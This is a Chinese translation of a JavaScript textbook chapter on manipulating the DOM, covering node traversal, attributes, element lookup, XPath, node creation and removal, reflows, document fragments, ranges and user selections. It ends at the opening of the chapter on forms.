使用 `item()` 语法而不是方括号符号，你可以通过这种方式获得相同的节点：

```javascript
head = document.documentElement.childNodes.item(0);
body = document.documentElement.childNodes.item(1);
```

获取 `body` 引用的另一种方法是使用 `document.body` 快捷存取访问器：

```javascript
body = document.body;
```

头部没有这样的快捷方式，但这比使用 `documentElement` 寻找 `body` 标签要容易得多。假设你想获取主体区域无序列表对象的引用。假设你知道路径，你可以链式调用节点访问来快速到达：

```javascript
var listObj = document.documentElement.childNodes[1].childNodes[1];
```

在 W3C 模型中，由于我在 HTML 结构中引入了空白，上一个示例的第二个子节点实际上将是 `h1` 标签。在 Explorer 中，它将是列表对象。假设你理解了这一点，继续该示例。

一旦你拥有了列表的引用，你可以使用该标识的相同成员来获取列表元素：

```javascript
var listEls = listObj.childNodes;
```

你可以使用 `parentNode` 属性获取列表对象的引用再次向上直到 HTML 文档：

```javascript
listObj = listEls.length && listEls[0].parentNode || null;
if (listObj)
  var htmlDoc = listObj.parentNode.parentNode;
```

在列表元素本身上，可以使用 `previousSibling` 和 `nextSibling` 在列表之间移动：

```javascript
var secondSibling = listObj.childNodes[1];
var firstSibling = secondSibling.previousSibling;
var thirdSibling = secondSibling.nextSibling;
```

再次记住，空白会影响节点的顺序。为了清晰，我在此示例中忽略了空白。在 Firefox 或 Safari 等 W3C DOM 中工作时，你必须考虑这一点。

# 元素属性 (Element Attributes)

一旦你拥有了 DOM 节点的引用，就可以详细查看它包含哪些属性。有几种方法可以获取这些信息。首先，我说的属性指的是 HTML 属性——但由于元素具有扩展属性，DOM 节点上的属性比 HTML 定义的属性多得多。然而，让我们从小开始。考虑以下 HTML 节点：

```html

```

如果你拥有此节点的引用，可以通过节点上的 `attributes` 对象访问类属性，该对象返回一个包含 `Attr` 元素的 `NamedNodeMap`。除了像 `NodeMap` 那样可以使用括号符号，该集合还有以下成员：

你可以像这样使用 `getNamedItem(itemName)` 方法查询特定属性。这将返回一个 `Attr` 属性对象，而不是属性的值。要获取值，请使用 `nodeValue` 属性：

```javascript
// 将返回 "logoImg"
myImg.attributes.getNamedItem("class").nodeValue
```

`nodeValue` 属性也是可写的。要更改它的值，只需将其赋值为其他值即可：

```javascript
myImg.attributes.getNamedItem("class").nodeValue = "newImgClass";
```

另一种（尽管可能存在问题）方法是使用元素本身上的 `helpers` 属性：

你的 `myImg` 对象设置 `"class"` 属性的简写形式是：

```javascript
myImg.setAttribute("class", "newImgClass");
```

你也可以直接将属性分配给 DOM 节点，但只有其中一些属性（如 `src`、`href` 等）直接对应于 HTML 属性。对于其他属性，你只是在设置 DOM 节点的扩展属性（`expando properties`）。某些属性（如类名）需要使用不那么直观的 `className` 属性（因为 `"class"` 单词在 JavaScript 中是保留关键字）：

```javascript
myImg.className = "newImgClass";
```

如果你记住 JavaScript 中的对象和数组是同一的，并且对象属性可以使用点表示法和括号表示法进行读取，你就可以进一步利用这种方法。例如，你也可以使用括号表示法设置 `className` 属性：

```javascript
myImg["className"] = "newImgClass";
```

无论你使用这些技术中的哪一种，都存在你应该注意的困难。不同的浏览器会为某些属性返回不同的值。例如，如果你用这样读取图像的 `src` 属性，你将取决于浏览器得到不同的结果：

```javascript
myImg.getAttribute("onclick");
```

这在 Internet Explorer 中可能返回 `function anonymous(){alert('hi')}`，但在其他浏览器中可能返回 `alert('hi');`。

问题并没止于此。其他属性如 `src` 和 `href` 也有类似的差异。读取 HTML 属性的一种更一致的方法是将 `attributes` 属性视为关联数组：

```javascript
myImg.attributes["onclick"]
```

这并不能规范化所有 HTML 属性的结果，但对事件处理程序等很有帮助。总的来说，这两种方法都能让你访问 HTML 属性，但你应该预期进行大量的测试，以处理返回值之间的差异。接下来我将基于这些知识实现一个基础的 DOM 检查器。

# 构建 DOM 检查器

在第 10 章中，你学习了使用 `for .. in` 对对象进行迭代。由于 JavaScript 支持属性访问器的括号表示法，你有两种读取和写入对象属性的方法。一种类似于 `object.property`，另一种类似于 `object[property]`。通过结合使用这两种方法，你可以遍历 DOM 节点以查看它拥有哪些成员。这在调试中非常有用，并且类似于 `Firebug` 和 `IE Developer Toolbar` 等调试工具检查对象所采用的方法。

一旦你获取了节点的引用，它就可以像 JavaScript 中的任何其他对象一样被处理。遍历它就像写一个循环一样简单：

```javascript
for (item in elNode) {
    document.write(item + ": " + elNode[item] + "<br />");
}
```

对于对象的每个属性，我输出一行文本，其中包含属性名和该属性的值。这是一个完整的示例：

```html
<html>
<head>
    <title>我的对象检查器</title>
</head>
<body>
    <div id="myDiv" class="myDivClass">我是一个 DIV。</div>
    <script>
        function inspectElement(elNode) {
            for (var item in elNode) {
                document.write(item + ": " + elNode[item] + "<br />");
            }
        }
        // 现在我们将此对象的所有属性写到页面上。
        inspectElement(document.getElementById("myDiv"));
    </script>
</body>
</html>
```

需要记住的一点是，每个浏览器都会添加自己的自定义 DOM 属性，因此每次输出的内容都会不同。在 Internet Explorer 6 中，输出看起来类似于图 13-2。

# 查找特定元素

现在你已经了解 DOM 的整体结构，你将查看如何定位它的特定部分。DOM Level 0 及其后续版本都提供了在文档中“查询”特定节点的方法。一旦你获取了节点的引用，就可以使用它来更改文档的外观或更改其内容。在 DOM 中定位特定元素有四种通用方法。第一种是使用 DOM Level 0 元素集合，其他方法涉及方法 `getElementsByName()`、`getElementsByTagName()` 以及流行的 `getElementById()`。

## 元素集合

在 DOM 的极早期版本中，只有一种方法可以定位特定元素，那就是使用几种类数组对象之一，这些对象将特定类型的元素分组在一起。其中最早的是 `document.forms[]` 数组，它包含了对文档中所有表单的引用。你可以通过使用数组属性并将索引传递数组来遍历表单集合：

```javascript
for (var fIndex = 0; fIndex < document.forms.length; fIndex++)
    var theFormObj = document.forms[fIndex];
```

你也可以使用名称属性作为参数来引用表单：

```javascript
var myFormObj = document.forms["theFormName"];
```

DOM 0 还存在许多其他集合。

这种定位页面对象的方法仅出于遗留原因存在。不建议你使用这些集合来查找特定元素。相反，请使用我现在要讨论的其他方法。

### getElementsByName

`document.getElementsByName(name)` 静态函数返回属性匹配参数的元素数组。这对于表单选择按钮特别有用，因为分组的多个元素可以具有相同的属性。如果没有找到指定名称的元素，将返回一个长度为零的数组。

例如，假设你有一个名为 `"favColor"` 的单选组：

```html
<form>
你喜欢什么颜色？<br />
<input type="radio" name="favColor" value="red"> 红色<br />
<input type="radio" name="favColor" value="blue"> 蓝色<br />
<input type="radio" name="favColor" value="green"> 绿色<br />
<input type="radio" name="favColor" value="orange"> 橙色<br />
</form>
```

你可以通过使用其名称获取该组的引用：

```javascript
var favColorGroup = document.getElementsByName("favColor");
```

现在遍历此列表就像遍历数组一样：

```javascript
for (var cI = 0; cI < favColorGroup.length; cI++)
    document.write("颜色:" + favColorGroup[cI].value + "<br />");
```

此外，因为是一个数组，你仍然可以使用括号表示法访问每个项：

```javascript
favColorGroup[1].value // "blue"
```

### getElementsByTagName

查询 DOM 时需要了解的第二个实用程序函数是 `getElementsByTagName()`。该方法被每个 HTML 元素节点继承，可以用于查询 DOM 的部分区域而非整体。它接受单个参数，即你想要查找的 HTML 标签字符串，该字符串不区分大小写。例如，要获取页面上所有的 `<div>` 标签列表，你可能会使用：

```javascript
document.getElementsByTagName("div");
```

与 `getElementsByName()` 类似，这将返回一个 `NodeList` 集合。如果没有找到任何节点，它将返回一个包含零元素的集合。你也可以通过在 DOM 的子节点上使用该方法来缩小搜索范围。例如，假设你有一个指向 HTML `<table>` 节点的引用。你可以通过在该表格节点上使用 `getElementsByTagName()` 来获取表格中所有单元格的集合：

```javascript
var cellObjs = tableObj.getElementsByTagName("td");
```

在所有现代浏览器（以及 IE 6+）中，你可以使用通配符符号 `*` 来获取文档部分区域所有元素的集合。例如，要获取表格对象中所有带标签元素的列表，你可以写道：

```javascript
var allElements = tableObj.getElementsByTagName("*");
```

与其他 `NodeList` 来说，生成的数组具有 `length` 属性，但不具备 `Array` 对象的其他功能。

### `getElementById`

所有 DOM 实用程序中最重要的可能是 `document.getElementById()`。我说它重要，是因为它是所有 DOM 函数中最流行的一个。它利用 HTML 的 `id` 属性从文档的所有其他节点中定位一个特定的 DOM 节点。如果 `getElementById()` 找不到具有指定 ID 的元素，它将返回 `null`。如果它找到多个具有该 ID 的元素，它将返回第一个。

如果你有像下面这样的 HTML 元素：

```html

```

你可以通过编写以下代码立即从文档中检索它的引用：

```javascript
var imgRef = document.getElementById('myImg');
```

请记住 ID 是区分大小写的。此外，开发者之间一个常见的拼写错误是将 `getElementById` 结尾的 `d` 大写化。这将触发 `TypeError`。

## XPath

在 DOM 中定位元素的最后一种方法是通过 XPath（XML 路径语言），这是一种用于在 XML 文档中选择节点的语法。它由 W3C 创建，是 DOM Level 3 规范的一部分。在支持它的浏览器中，它是从文档中定位单个甚至多个节点的极高速度方法。遗憾的是，目前该浏览器列表不包含 Internet Explorer（至少对于 HTML DOM 而言），但包含了 Mozilla (Firefox)、WebKit (Safari) 和 Opera。虽然有一些封装器库，如 JavaScript-XPath ([`coderepos.org/share/wiki/JavaScript-XPath`](http://coderepos.org/share/wiki/JavaScript-XPath)) 和 Google 的 Ajaxslt ([`code.google.com/p/ajaxslt/`](http://code.google.com/p/ajaxslt/)) 为 Internet Explorer 提供此类功能，但由于库依赖和缺乏对 IE 的支持，这尚未进入主流使用。

在支持它的浏览器中，XPath 表达式可以通过 `document.evaluate()` 方法执行，其通用语法为：

```javascript
var xpResult = document.evaluate( xpathExpression, contextNode, namespaceResolver, resultType, result );
```

第一个参数 `xpathExpression` 应该包含一个字符串形式的有效 XPath 表达式。XPath 表达式的完整范围超本书的范畴，但可以通过网络轻松研究。第二个参数 `contextNode` 是一个将作为搜索“根节点”的节点。你可以通过这种方式将搜索限制在文档的子集中以提高 XPath 表达式的性能。可选参数 `nameSpaceResolver` 是一个将用于评估或在命名空间前缀之间转换（但对于 HTML 文档通常为 `null`）。`resultType` 是一个常量，指定作为评估结果返回的所需的结果类型。最后一个可选参数 `result` 可以在需要时存储结果集（如果不需要，则使用 `null`）。

作为一个快速示例，以下的 XPath 搜索将返回文档中所有 h2、h3 和 h4 标题的节点列表：

```javascript
var headings = document.evaluate('//h2|//h3|//h4', document, null, XPathResult.ORDERED_NODE_ITERATOR_TYPE, null );
```

# 创建和删除节点

现在我将讨论你修改文档的各种方法。我将查看向文档写入新 HTML 块的方法，以及交换和移除已存在节点的方法。

## 添加新节点

向文档中添加 HTML 有几种不同的方法，其范围从笨拙、缓慢到精确、快速不等。回到 Internet Explorer 4 和 Netscape 6 中现代 DOM 的早期版本，开发者已经非常习惯用两种方法来实现此。一种是使用 `document.write()` 或 `document.writeln()` 直接向文档输出自由格式的 HTML 内容。为了说明起见，我在整本书中一直使用它在不使用 `alert()` 的情况下向文档输出信息。然而，在修改文档内容时，这是一种粗糙的工具。如果你像示例中这样在文档加载时向文档写入 HTML，它的效果很好：

```html
<html>
<head></head>
<body>
    <script type="text/javascript">
        document.write("<h1>I am new document content!</h1>");
    </script>
</body>
</html>
```

然而，如果你只想修改文档的部分，它并不非常有用。一旦文档加载，再次使用 `document.write()` 将洗掉整个页面，导致出现空白屏幕。当你这样做时，浏览器会将文档视为“已打开”并处于加载状态。要结束加载状态，你必须使用 `document.close()`，这将恢复到“已加载”状态。

另一种迅速流行的技术是 `innerHTML`。`innerHTML` 属性由微软引入，用于设置和检索文档中任何节点的 HTML 内容。它随后被 W3C 和其他厂商采用并批准。它基本上是修改节点内容的一种粗暴方法，强制浏览器即时解析并渲染 HTML。

在下面的示例中，你使用 `innerHTML` 动态向页面上的 DIV 写入 HTML。

```html
<div id="helloWorldDiv"></div>
<script type="text/javascript">
    var myDivRef = document.getElementById("helloWorldDiv");
    myDivRef.innerHTML = "<h1>Hello World!</h1>";
</script>
```

很快就会发现，这种方法虽然有用，但缺乏 API 提供的性能。在下表中，你将看到用于编程创建各种类型节点的方法。每个函数返回一个特定类型的节点引用。所有这些都是 `document` 对象的静态成员。

可以在内存中构建 HTML 节点而不影响 DOM，并在准备好后使用 `appendChild(nodeRef)` 将它们附加到 DOM。为了方便，可以使用几种 DOM “变异器”。这些方法包括 `appendChild()`（将一个 DOM 节点作为子节点添加到另一个节点中）、`removeChild()`（删除一个节点，包括其所有子节点）、`replaceChild()`（将文档中的一个节点替换为另一个）以及 `insertBefore()`（在当前节点的相同级别将节点插入文档中）。

为了演示如何使用这些方法，让我们从一个空白的 HTML 文档开始：

```html
<html>
<head>
    <title>Creating Elements and Appending them</title>
</head>
<body>
</body>
</html>
```

让我们先在内存中创建一个新的 H1 标签。你可以通过使用通用文档方法 `.createElement(tagName)` 来实现这一点：

```javascript
var newHeading = document.createElement("h1");
```

要在标题中放入文本，你有几种选择。你可以使用 `newHeading` 的 `innerHTML` 属性，这种方法速度较慢，但它允许你在标题内部放入任何种类的 HTML。你也可以直接使用以下两个语句来设置节点的文本内容：

```javascript
newHeading.innerText = "I'm a Heading!"; // 用于 IE
newHeading.textContent = "I'm a Heading!"; // 用于 W3C - Opera, Safari, Firefox
```

这两条语句的结合在 Internet Explorer 和 W3C 标准 DOM 中都会在标题下方创建一个带有指定文本的文本节点。这等同于手动创建一个完整的文本节点并将其附加到它：

```javascript
var headingText = document.createTextNode("I'm a heading!");
newHeading.appendChild(headingText);
```

最后，为了将你的标题附加到 DOM 中，你再次使用 `appendChild()` 将其附加到 `body` 元素上：

```javascript
document.body.appendChild(newHeading);
```

## 重绘与重流（Repaints and Reflows）

当你更改文档的外观时，会发生两件事之一或两者。如果视觉变化很小（例如，如果你更改了某个元素的颜色，或者让一个之前不可见的元素可见，但这种显示不会影响页面布局），就会发生所谓的 `repaint`（重绘）。这意味着浏览器已经识别了视觉变化并重新绘制了文档。这在所有现代浏览器中都是如此，尽管每个浏览器实现该功能的方式无疑非常不同。然而，事实证明这是一个计算密集型操作，会影响你的页面性能，甚至是计算机本身的性能。

如果视觉变化更为显著并影响了文档的实际布局（例如，调整了 DIV 的大小），它将触发更剧烈的操作：`reflow`（重流）。这种操作会查看你更改的元素如何影响文档的整体布局。在很大情况下，浏览器需要重新计算并绘制该 DIV 的所有子元素，以及 DOM 中紧随其后的任何节点。由于 DOM 通常是从左到右、从上到下的流式结构，因此这通常可以通过单次遍历完成。某些 DOM 的更改需要多次遍历（例如 HTML 表格）。`reflow` 是比 `repaint` 更具计算开销的操作，是动态 HTML 操作性能低下的主要原因。向 DOM 添加或删除元素会隐式地触发重绘和重流，从而影响性能。通常，在操作 DOM 时，你应该尝试通过使用最佳实践来尽量减少对性能的影响。其中之一就是使用文档片段（`document fragments`），我将在接下来进行解释。

## 文档片段（Document Fragments）

另一种向文档附加节点的方法是使用 `DocumentFragment` 元素类型。`document fragment`（文档片段）是一个轻量级的类文档容器，像真实文档一样持有 DOM 节点。你可以将文档片段保留在内存中，并在任何需要时将其附加到真实文档上。当这种情况发生时，片段内部的节点会被复制过去，但文档片段本身不会——因此这是一次性添加多个节点的一种无缝且高效的方法。我应该再次指出，每当你对文档进行强制其重新计算布局的更改时（通常在添加节点时会如此），都会触发 `reflow`，这是一个相对缓慢的操作。为此，你希望尽量减少重流的次数。如果你向文档中添加大量节点，使用文档片段并在完成后添加该片段会更快，因为这只会产生一次重流，而不是许多次。

使用 `document.createDocumentFragment()` 创建并添加文档片段是很容易的。下面的示例向片段添加了一批节点，然后将其附加到 `body`：

```javascript
var aFragment = document.createDocumentFragment();

for (var i = 0; i < 20; i++) {
  var newParagraph = document.createElement("p");
  var newText = "Hello World.";
  newParagraph.innerText = newText;
  newParagraph.textContent = newText;
  aFragment.appendChild(newParagraph);
}
document.body.appendChild(aFragment);
```

在这个示例中，我向片段添加了 20 个节点，然后将其附加到 `body`。生成的文档看起来完全就像我直接将节点添加到 `body` 中一样。

## 变异器的性能比较

正如我已经所说的，所有这些技术在性能方面并不是对等的。在添加多个节点时，你面临着触发文档中多次重流的风险，这从 CPU 的角度来看是非常昂贵的。此外，浏览器通过 `innerHTML` 解析自由格式 HTML 所必须做的工作对性能只有不利。为了消除对直接 `appendChild` 和文档片段之间差异的疑问，图 13-3 提供了这些技术在几种流行浏览器中的比较。

由于数字越小越好，显然文档片段保护浏览器免受许多不必要的工作。这种测试的具体数字会根据情况而异，并取决于某些浏览器用于触发重流的复杂规则（特别是 Opera，它使用定时器以及规则来决定何时执行重流）。

## 删除节点（Removing Nodes）

从 DOM 中删除节点的方法可能有点奇怪。由于 `removeChild()` 删除的是树中的子节点，因此它必须在目标节点的父节点上调用。让我们创建一个简单的 HTML 文档作为示例：

```html
<html>
<head>
    <title>删除节点</title>
</head>
<body>
  <div>
    <p id="myParagraph">这是一个测试</p>
  </div>
</body>
</html>
```

如果你想从 DIV 中删除段落标签，首先必须获取段落的引用，然后通过 `parentNode` 获取父容器。一旦获取了这些，就可以使用 `removeChild()` 消除目标：

```javascript
var paragraph = document.getElementById("myParagraph");
paragraph.parentNode.removeChild(paragraph);
```

DOM 现在只有一个没有子节点的 DIV 容器。一种简单但不优雅的方法是设置容器 DIV 的 `innerHTML` 属性：

```javascript
paragraph.parentNode.innerHTML = "";
```

这将产生相同的效果。

## 交换节点（Swapping Nodes）

使用之前的示例，与其完全删除段落标签，不如使用 `replaceChild()` 将其交换为另一个节点。它接收两个参数：分别是新节点和旧节点。让我们创建一个新的文本节点并交换旧节点：

```javascript
var newParagraph = document.createElement("p");
newParagraph.innerText = "这是一个新段落!";
newParagraph.textContent = "这是一个新段落!";
var oldParagraph = document.getElementById("myParagraph");
oldParagraph.parentNode.replaceChild(newParagraph, oldParagraph);
```

现在的 body HTML 看起来像这样：

```html
<body>
  <div>
    <p>这是一个新段落!</p>
  </div>
</body>
```

`oldParagraph` 的引用现在变为 `null`。

# DOM 范围（DOM Ranges）

范围（`Ranges`）在 DOM 操作中是一个有些奇怪的概念。`range` 本质上是 DOM 中一段任意的连续区域。最常见的范围类型是用户选择。当用户在页面上选择某些文本时，他们看到的文本框就代表一个范围，并且可以在内部转换为范围。因此，范围可以跨越单元格，甚至将段落切半。使用 W3C 的 `Range` 对象或微软的 `Text Range` 对象，你可以程序化地自己创建、修改和破坏范围，而不需要用户输入。只需记住，范围与选择（`selections`）并不相同——但如果你需要，选择可以变成范围。

## 来自 DOM 的范围

由于任何需要处理范围的人都需要同时处理微软和 W3C 模型，因此他们应该首先测试哪种是支持的。正如我在本章前面的部分提到的，测试 DOM 特性支持的方法是使用 `DOM` 对象的 `hasFeature()` 方法：

```javascript
// 首先检查浏览器是否支持 W3C DOM2 Ranges
var w3Range = document.implementation.hasFeature("Range", "2.0");
```

在整个节中，我将使用这个变量 `w3Range` 来区分 W3C 版本和 Internet Explorer 版本的范围代码。我还会引用以下基础 HTML 文档：

```html
<html>
<head>
    <title>Basic Ranges</title>
</head>
<body>
    <div id="divregion">
        <p id="myShortParagraph">I'm a <b>paragraph</b>!</p>
        <p id="myLongParagraph">
            Lorem ipsum dolor sit amet, <em>consectetur</em> adipisicing elit, <u>sed do</u> eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, <u>quis nostrud exercitation</u> ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.
        </p>
    </div>
</body>
</html>
```

要创建一个空的 `Range` 或 `TextRange` 对象，分别使用 `document.createRange()` (W3C) 和 `document.body.createTextRange()` (MS)。对于微软版本，我按照标准做法在 body 元素上执行，这样范围就可以移动到 DOM 的任何部分。

```javascript
var pRange;

if (w3Range) {
    // W3C Range
    pRange = document.createRange();
} else {
    // IE TextRange
    pRange = document.body.createTextRange();
}
```

现在我有了一个 `Range` 或 `TextRange` 对象，让我们比较一下如何将范围定位到特定的 DOM 节点上。我将使用 W3C 的 `selectNode()` 和 IE 的 `moveToElementText()`。请务必查看附录 F，以获取 `Range` 和 `TextRange` 的完整成员列表。

```javascript
// 将范围设置为特定节点
if (w3Range) {
    // 我们也可以在这里使用 selectNodeContents，它将包含内部内容
    pRange.selectNode(document.getElementById('myShortParagraph'));
} else {
    // IE
    pRange.moveToElementText(document.getElementById('myShortParagraph'));
}
```

现在，为了验证我确实选中了整个节点，我可以在 W3C 中使用 `toString()` 获取节点的文本（不含 HTML），并在 IE 中使用 `text` 执行相同的操作：

```javascript
// 获取节点的内容
var rangeContents;

if (w3Range) {
    rangeContents = pRange.toString();
} else {
    // IE
    rangeContents = pRange.text;
}

document.write(rangeContents);
```

这会在页面上输出以下内容：I'm a paragraph!

现在，一旦设置好范围，我将讨论如何处理范围的左边界和右边界。

## 边界

再次，微软允许你设置边界的方法与 W3C 希望你这样做的方法大不相同。事实上，它更有局限性。在 Firefox、Safari 和 Opera 中，你可以通过使用 `setStart()`、`setEnd()`、`setStartBefore()`、`setEndBefore()`、`setStartAfter()` 和 `setEndAfter()` 之一来显式设置范围的起点和终点。主要的两个方法 `setStart()` 和 `setEnd()` 接受两个参数：一个 DOM 节点和一个字符偏移量整数（该偏移量可以是正的也可以是负的）。例如，如果继续之前的示例，可以使用 `setEnd()` 将选择的终点定位到包含下一个段落的一部分：

```javascript
// 选择 "myLongParagraph" 段落下的文本节点加上 3 个字母
pRange.setEnd(document.getElementById('myLongParagraph').firstChild, 3);
```

这导致选择包含以下文本：I'm a paragraph! Lor

在 Internet Explorer 中，你没有具有相似的灵活性。最可比较的是三个函数 `moveStart()`、`moveEnd()` 和 `move()`。这些每一个函数都接受两个参数：

```javascript
myTextRange.moveStart(sUnit [, iCount])
myTextRange.moveEnd(sUnit [, iCount])
myTextRange.move(sUnit [, iCount])
```

第一个参数是测量单位。它接受四个字符串中的之一：

- `"character"`：移动一个或多个字符。
- `"word"`：移动一个或多个单词。
- `"sentence"`：移动一个或多个句子。
- `"textedit"`：移动到原始范围的开始或结束。

第二个参数代表该单位的数量，接受负数。要以类似的方式更改 IE 范围的终点，我可能会这样做：

```javascript
pRange.moveEnd("character", 3);
```

由于我不需要担心 IE 中的节点，我只需要将选择向下移动三个字母，这产生了相同的选择：I'm a paragraph! Lor

## 修改内容

在 W3C 模型中，修改范围的内容比在 Internet Explorer 中稍微困难一些。在 W3C 的方法中，这涉及到文档片段（`document fragments`）的使用。例如，如果我获取之前的范围并使用 `cloneContents()` 或 `extractContents()` 将克隆到一个变量，我将得到一个 DOM 文档片段：

```javascript
var newDocFragment = pRange.cloneContents();
```

如果我想直接在文档中更改该范围的内容，我必须从文档中删除范围，然后更改文档片段（或创建一个新节点），并使用 `insertNode()` 将其插入到范围（现在已折叠）的开头。困惑了？我不怪你。看看我的意思：

```javascript
pRange.deleteContents();
newDocFragment.firstChild.textContent = "Some Other Text";
pRange.insertNode(newDocFragment);
```

现在我将用 "Some Other Text" 单词替换掉原来的文本节点。在 Explorer 中，这简单得多。我只需使用 `pasteHTML()` 插入一个新的 HTML 块以替换旧的块即可：

```javascript
pRange.pasteHTML("<p>Some Other Text</p>");
```

这将产生相同的效果。

## 折叠范围

当你想要清空范围的内容时，你应该调用 `collapse()`。这在 Internet Explorer 和 W3C 方法中都是如此。每个方法都接受一个布尔值参数，表示你想折叠到范围的起点（`true`）还是终点（`false`）：

```javascript
// 在 IE 和 W3C 浏览器中：
pRange.collapse(true); // 折叠到起点
```

要测试范围是否折叠，情况再次变得有些不同。在 W3C 中很容易——只需测试 `range.collapsed`。在 Internet Explorer 中，你必须查看 `boundingWidth` 属性，它告诉你范围的总宽度是多少像素。当它折叠时，该值等于零：

```javascript
if (w3Range) {
    pRange.collapse(true);
    alert(pRange.collapsed);
} else {
    // IE
    var isCollapsed = (pRange.boundingWidth == 0);
    alert(isCollapsed);
}
```

关于范围的最后一点，我将讨论它们与用户选择的关系。

网页上一种越来越流行的技术是关注用户在页面上选中的文本，以便提供查找功能或广告。例如，在《纽约时报》网站上，你可以选择文章中的某些文本，并将其作为在其他文章中搜索的基础。

遗憾的是，各种浏览器中实现的选择 API 存在很大差异。一如既往，有一套“微软的方法”和另一套“其他所有浏览器的方法”。W3C 标准化了他们称为 *ranges*（范围）的内容，但这仅在非 IE 浏览器（如 Firefox 2、Safari 1.3 和 Opera 9）中实现。事实上，Opera 同时也实现了微软的方法和 W3C 的方法，但它们的 W3C 实现更为完整。

要检测用户何时选择了某些文本，你可以选择使用 `document` 上的 `"mouseup"` 事件，这是判断用户可能正在进行此操作的相当好的指标。然后，你检查用户的选择对象中是否有任何数据。为了做到这一点，你必须先将选择转换为 range 对象。顺便说一下，你也应该意识到 range 是可以通过程序创建的。这个 range 对象将包含选择中的文本，其中文本内的 HTML 会通过补全结束标签等进行修复。例如，如果用户选择了文本：

```html
ipsum dolor sit amet, consectetur adipisicing elit, sed do eiusmod tempor
incididunt ut labore et dolore magna aliqua.</p>
<p>Ut enim ad minim veniam, quis nostrud exercitation
```

返回给开发者的文本看起来如下：

```html
ipsum dolor sit amet, consectetur adipisicing elit, sed do eiusmod tempor
incididunt ut labore et dolore magna aliqua.</p>
<p>Ut enim ad minim veniam, quis nostrud exercitation</p>
```

所以这让人松了一口气——这意味着在查看用户选择时，不需要担心处理格式不正确的 HTML 文档。但你如何获取用户选择呢？一如既往，答案会根据浏览器类型清晰地划分：Internet Explorer 在一侧，其他的在另一侧。

首先，假设你已经有一个包含某些文本的文档。从绑定 `"mouseup"` 事件开始：

```javascript
if (document.attachEvent)
    window.attachEvent("onmouseup", getUserSelection);
else
    window.addEventListener("mouseup", getUserSelection, true);
```

在我即将创建的 `getUserSelection()` 函数中，必须像以前一样对 IE 和 W3C 的代码进行分支。在 W3C 版本中，你使用 `window.getSelection()` 获取用户选择对象的引用。请参见附录 F 获取关于该对象及其成员的解释。基本上你想做的是将选择对象提升为一个完全的 `Range` 实例，正如我一直在讨论的那样。要做到这一点，使用选择对象的 `getRangeAt()` 方法从选择中返回一个 range。然后，如果你只需要选择的文本，只需在 range 上调用 `toString()` 即可轻松实现：

```javascript
// W3C Range selection
userSelection = window.getSelection();
var selectionRange = userSelection.getRangeAt(0);
userText = selectionRange.toString();
```

在 Internet Explorer 中，你进行类似的操作。在这种情况下，选择对象属于 `document` 对象而不是 `window`。你需要的方法是 `createRange()`。等效的代码是：

```javascript
// IE TextRange
userSelection = document.selection.createRange();
userText = userSelection.text;
```

完整的 `getUserSelection()` 函数可能看起来如下：

```javascript
function getUserSelection(e) {
    // 首先检查浏览器是否支持 W3C DOM2 Ranges
    var w3Range = document.implementation.hasFeature("Range", "2.0");
    var userSelection;
    var userText;

    if (w3Range) {
        // W3C Range
        userSelection = window.getSelection();
        var selectionRange = userSelection.getRangeAt(0);
        userText = selectionRange.toString();
    } else {
        // IE TextRange
        userSelection = document.selection.createRange();
        userText = userSelection.text;
    }
    return userText;
}
```

这将返回选择的文本。

## 总结

本章介绍了如何使用 JavaScript 操作文档对象模型（DOM）。主要主题包括：

- 我讨论了现代 DOM 在 Internet Explorer 4 和 Netscape 6 中的起源，以及 Netscape 2 和 Internet Explorer 3 中最早的 DOM 且至今仍存在的特征。
- 文档可以通过两种基本方式之一渲染：使用 W3C 标准（在任何给定浏览器中已实现的范围内）或使用兼容模式（`quirks mode`），后者使用一组随时间演变的规则渲染页面。你可以通过设置或不设置 `<!DOCTYPE>` 来选择页面以何种模式渲染。
- 在 Internet Explorer 8 中，你可以使用 meta 标签指定特定的浏览器版本来渲染页面。
- DOM 的结构类似于树。XML 和 HTML 文档在这方面是类似的。W3C DOM API 设计用于同时处理这两种类型的文档。
- 有 12 种 DOM 节点，其中只有几种在 HTML 文档中经常使用。
- 你使用每个 DOM 节点继承的属性来辅助遍历文档。你可以使用 `parentNode`、`previousSibling`、`nextSibling`、`firstChild`、`lastChild` 和 `childNodes` 等属性在 DOM 中向上、向下和沿方向移动。
- 有多种定位特定 DOM 元素的方法，包括许多实用函数：`getElementsByName()`、`getElementsByTagName()` 和 `getElementById()`。如果你足够幸运使用了支持 XPath 的浏览器，这也可以是定位节点的有效工具。
- 你可以使用 `document.write()`、`innerHTML` 或 `appendChild()` 创建新的 HTML 节点。文档片段（`Document fragments`）可以通过加速此类 DOM 更改来提供帮助。
- 你可以使用 `removeChild()` 方法删除 HTML 节点。
- 可以 `replaceChild()` 方法实现节点交换。
- `Range` 是文档中的任意区域，可以设置、移动、删除或更改。
- 当用户使用鼠标或键盘从文档中选择文本时，该区域可以转换为 range，该 range 可用于提取文本或执行其他操作。

在第 14 章中，我将深入研究 Web 表单的 JavaScript 接口。将讨论表单验证、操作、选择和光标，以及富文本字段（WYSIWYG）等问题。

# 14 表单

JavaScript 的早期用途之一是改进网页表单的体验。在网页早期，当大家使用拨号上网且页面加载极其缓慢时，往返服务器验证表单内容是一个严重的缺陷。通过 JavaScript 和原始的 DOM，可以对表单内容进行基本的预验证，为用户节省大量的烦恼。随着动态 HTML 以及当然 Ajax 的加入，现在可以提供实时反馈的感觉，仿佛你输入的数据是在即时处理的，并且表单体验根据你的输入进行调整。

这些属性中的每一个以及许多其他属性都现在表单的 DOM 对象中。这些属性的完整列表可见附录 F。下表列出了其中一些最重要的属性。表单还有两个方法：最后，表单还支持几个关键事件：尽管 Form 对象本身拥有的事件很少，但你处理表单的方式是通过丰富的事件模型实现的。你不需要在验证数据或向用户提供反馈之前等待 `submit` 事件的触发。每个表单字段都有自己的一套事件和方法，用于提供这些体验的切入点。

要获取文档中表单的引用，有两种方法。旧方法是利用所有浏览器仍然提供的内置 `document.forms[]` 集合。该集合最早出现在 Netscape 2 中，与第一个 JavaScript 版本出现。它基本上是一个类数组对象，具有一个 `length` 属性，并能够通过索引或名称来识别表单。例如，假设我正在处理包含两个表单的以下 HTML 文档：

```html
<html>
<head>
    <title>Simple Forms Demo</title>
</head>
<body>
<h1>Sign in</h1>
<form name="signinForm" id="siForm">
